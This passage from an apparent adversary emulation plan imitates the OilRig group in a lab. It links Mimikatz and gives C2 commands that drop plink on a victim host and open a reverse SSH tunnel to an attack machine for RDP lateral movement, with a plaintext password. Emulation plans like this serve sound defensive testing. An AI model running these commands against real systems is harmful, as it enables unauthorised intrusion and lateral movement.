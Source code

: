 <br>

*  Mimikatz: [Mimikatz](../Resources/Mimikatz/)

<br>

### :microscope: Cited Intelligence
*  Credential dumping: https://unit42.paloaltonetworks.com/unit42-twoface-webshell-persistent-access-point-lateral-movement/

<br>


## Step 7 - Lateral Movement to EWS via RDP Tunnel

### :microphone: Voice Track

Step 7 emulates OilRig moving laterally to `WATERFALLS (10.1.0.6)`. This is 
accomplished with a remote port forward using the plink command line tool 
(downloaded by `SystemFailureReporter.exe`). OilRig conducts a remote port forward 
from `THEBLOCK (10.1.0.5)` to the attacking machine to allow RDP access through 
port 3389 as user `gosta`.

---

### :biohazard: Procedures

Download plink to `THEBLOCK (10.1.0.5)` using SideTwist and start plink tunnel 
to gain RDP access to `WATERFALLS (10.1.0.6)` from the Linux Attack Platform.

```bash
./evalsC2client.py --set-task goTb '102 c:\users\public\downloads\plink.exe|plink.exe'
```

Execute the remote port forward command using SideTwist. Note: this SideTwist 
process will persist as long as the tunnel is open and as such will need to be 
closed after the activity is done. SideTwist will continue to execute
via schtask so other commands can be issued to the implant if needed.

```bash
./evalsC2client.py --set-task goTb '101 echo y | c:\users\public\downloads\plink.exe -ssh -N -R 192.168.0.4:13389:10.1.0.6:3389 -l saka -pw "$ceKa#zU$Uc4^9yZ" 192.168.0.4'
```

Ensure that the tunnel is open and listening on port 13389 on Linux Attack Platform.

```bash
netstat -antulp | grep 13389
```

You should see a result that looks like the following:
```
tcp        0      0 127.0.0.1:13389         0.0.0.0:*               LISTEN
```

RDP to `WATERFALLS (10.1.0.6)` as user Gosta from Linux Attack Platform using the SSH
tunnel.
